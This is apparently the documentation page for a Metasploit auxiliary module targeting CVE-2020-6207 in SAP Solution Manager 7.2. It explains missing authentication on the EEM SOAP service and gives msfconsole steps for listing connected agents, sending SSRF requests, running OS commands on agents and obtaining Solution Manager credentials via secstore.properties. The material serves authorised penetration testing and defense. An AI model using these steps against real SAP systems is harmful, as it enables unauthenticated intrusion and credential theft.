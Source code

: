 ## Vulnerable Application
This module exploits the CVE-2020-6207 vulnerability within the SAP EEM servlet (tc~smd~agent~application~eem) of
SAP Solution Manager (SolMan) running version 7.2. The vulnerability occurs due to missing authentication
checks when submitting SOAP requests to the /EemAdminService/EemAdmin page to get information about connected SMDAgents,
send HTTP request (SSRF), and execute OS commands on connected SMDAgent. Works stable in connected SMDAgent with Java version 1.8.

Successful exploitation of the vulnerability enables unauthenticated remote attackers to achieve SSRF and execute OS commands from the agent connected
to SolMan as a user from which the SMDAgent service starts, usually the daaadm.

If a connected SMDAgent has CVE-2019-0307 vulnerability, unauthenticated remote attackers can obtain its 
secstore.properties file, which contains the credentials for the SAP Solution Manager server to which this SMDAgent is connected.

CVE-2019-0307 vulnerability paper: [The Agent Who Spoke Too Much][1]

CVE-2020-6207 vulnerability paper: [An Unauthenticated Journey to Root][2]

### Application Background
In SAP landscapes, SolMan could be compared to a domain controller system in the Microsoft world.
It is a technical system that is tightly connected to all other SAP systems with high privileges.
Once an SAP system is connected to the solution manager, it receives the name of a "managed" or "satellite" system.
As an administration solution, SolMan is intended to centralize the management of all systems within the landscape by
performing actions such as implementing, supporting, monitoring and maintaining the enterprise solutions.

### Installation Steps
Steps to install, configure and manage SolMan can be found online at [this page][3].

Once set up and configured, the instances will be vulnerable on the default HTTP port 50000.

## Verification Steps

1. Start msfconsole
1. Do: `workspace [WORKSPACE]`
1. Do: `use auxiliary/admin/sap/sap_2020_6207_solman_rce`
1. Do: `set RHOSTS [IP]`
1. Do: `set action LIST`
1. Do: `run`
1. Verify that a list of connected agents was returned.
1. Do: `set AGENT [Connected agent server name]`
1. Do: `set SSRF_METHOD [GET, POST, PUT, DELETE, PATCH, ...]`
1. Do: `set SSRF_URI [SSRF uri, example - http://1.1.1.1/test.html]`
1. Do: `set action SSRF`
1. Do: `run`
1. Verify that the HTTP request from the connected agent has been sent.
1. Do: `set AGENT [Connected agent server name]`
1. Do: `set COMMAND [OS command, example - ping -c 4 1.1.1.1]`
1. Do: `set action EXEC`
1. Do: `run`
1. Verify that the OS command has been executed on the connected agent.
1. Do: `set AGENT [Connected agent server name]`
1. Do: `set SRVHOST [Local IP]`
1. Do: `set action SECSTORE`
1. Do: `run`
1. Verify that the credentials for Solution Manager have been obtained.


[1]: https://conference.hitb.org/hitblockdown002/materials/D2T1%20-%20SAP%20RCE%20-%20The%20Agent%20Who%20Spoke%20Too%20Much%20-%20Yvan%20Genuer.pdf
[2]: https://i.blackhat.com/USA-20/Wednesday/us-20-Artuso-An-Unauthenticated-Journey-To-Root-Pwning-Your-Companys-Enterprise-Software-Servers-wp.pdf
[3]: https://blogs.sap.com/2016/02/16/solution-manager-72-installation-and-configuration-i-installations/